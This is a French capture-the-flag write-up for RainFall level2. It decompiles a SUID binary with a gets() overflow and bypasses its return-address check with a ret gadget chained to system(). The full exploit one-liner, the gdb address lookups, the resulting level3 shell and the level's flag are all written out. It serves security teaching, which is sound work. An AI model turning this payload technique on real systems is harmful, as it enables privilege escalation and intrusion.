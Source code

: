 # RainFall CTF - Level2

## Reconnaissance

### Fichier trouvé
```bash
level2@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
```

**Observations :**
- Exécutable avec SUID bit activé (`s` dans les permissions)
- Appartient à `level3` (propriétaire) et `users` (groupe)
- Peut être exécuté avec les privilèges de `level3`

## Analyse statique avec Ghidra

### Fonction main
```c
void main(void) {
  p();
  return;
}
```

### Fonction p (vulnérable)
```c
void p(void) {
  uint unaff_retaddr;
  char local_50 [76];
  
  fflush(stdout);
  gets(local_50);
  if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",unaff_retaddr);
    _exit(1);
  }
  puts(local_50);
  strdup(local_50);
  return;
}
```

### Fonction utile pour l'exploitation
```c
void __libc_csu_fini(void) {
  return;
}
```

**Code assembleur :**
```asm
__libc_csu_fini:
080485c0 f3 c3    RET
```

## Analyse des vulnérabilités

### Buffer Overflow
- **Variable vulnérable** : `local_50[76]` (tableau de 76 caractères)
- **Fonction dangereuse** : `gets()` - aucune vérification de taille
- **Impact** : Débordement possible du buffer permettant de contrôler l'adresse de retour

### Protection de sécurité
```c
if ((unaff_retaddr & 0xb0000000) == 0xb0000000)
```
- **Fonction** : Bloque toute adresse de retour commençant par `0xb0`, `0xb1`, ..., `0xbf`
- **Impact** : Empêche l'utilisation directe de :
  - La libc (adresses en `0xb7xxxxxx`)
  - La stack (adresses en `0xbfxxxxxx`)
  - Variables d'environnement

## Stratégie d'exploitation

### Contournement de la protection
Utiliser l'adresse `0x080485c0` qui :
- Ne déclenche pas la protection (commence par `0x08`)
- Contient une instruction `ret` simple
- N'altère pas la mémoire (aucune instruction avant)
- Agit comme un "trampoline" vers `system()`

### Technique ROP (Return-Oriented Programming)
1. Redirection vers le gadget ROP (`0x080485c0`)
2. Le gadget exécute `ret` et dépile `system()`
3. `system()` s'exécute avec l'argument fourni

## Récupération des adresses nécessaires

### Adresse de system()
```bash
gdb ./level2
(gdb) b main
(gdb) run
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

### Adresse heap (pour l'argument "/bin/sh")
```bash
gdb ./level2
(gdb) b strdup
(gdb) run
test
(gdb) finish
(gdb) p/x $eax
$2 = 0x804a008
```

L'adresse `0x804a008` est celle où `strdup()` copie notre buffer sur la heap.

## Construction du payload

### Structure mémoire
```
Buffer[76] + Frame_Pointer[4] + Return_Address[4] = 84 octets total
```

### Payload final
```
"/bin/sh\0" (8 octets) +
'A' * 68 (pour remplir le buffer : 8 + 68 = 76) +
'A' * 4 (pour écraser le frame pointer) +
GADGET_ROP (0x080485c0 - contourne la sécurité) +
SYSTEM (0xb7e6b060 - fonction à exécuter) +
ADRESSE_RETOUR_BIDON ("BBBB" - on s'en fiche) +
ADRESSE_HEAP (0x804a008 - argument "/bin/sh")
```

### Commande d'exploitation
```bash
(python -c "print('/bin/sh\x00' + 'A' * (68+4) + '\xc0\x85\x04\x08' + '\x60\xb0\xe6\xb7' + 'BBBB' + '\x08\xa0\x04\x08')"; cat) | ./level2
```

## Mécanisme d'exécution

1. `gets()` lit le payload dans `local_50`
2. La protection vérifie `0x080485c0` → OK (commence par `0x08`)
3. `puts()` affiche "/bin/sh"
4. `strdup()` copie le buffer vers la heap à `0x804a008`
5. `return` saute vers `0x080485c0` (gadget ROP)
6. Le gadget fait `ret` → dépile et saute vers `0xb7e6b060` (`system`)
7. `system(0x804a008)` s'exécute avec "/bin/sh" comme argument
8. Shell ouvert avec les privilèges de `level3`

## Vérification de l'exploitation

```bash
level2@RainFall:~$ (python -c "print('/bin/sh\x00' + 'A' * 72 + '\xc0\x85\x04\x08' + '\x60\xb0\xe6\xb7' + 'BBBB' + '\x08\xa0\x04\x08')"; cat) | ./level2
/bin/sh
whoami
level3
```

### Récupération du flag
```bash
cat /home/user/level3/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

## Notes techniques

- **Type de vulnérabilité** : Buffer Overflow avec protection anti-ret2libc
- **Technique d'exploitation** : ROP (Return-Oriented Programming) + Heap exploitation
- **Architecture** : x86 (32-bit)
- **Protection contournée** : Vérification des bits hauts de l'adresse de retour
- **Concepts utilisés** :
  - Buffer overflow pour contrôler l'exécution
  - ROP pour contourner les protections
  - Exploitation de heap via `strdup()`
  - Little-endian encoding des adresses
- **Difficulté** : Avancé - nécessite compréhension des protections modernes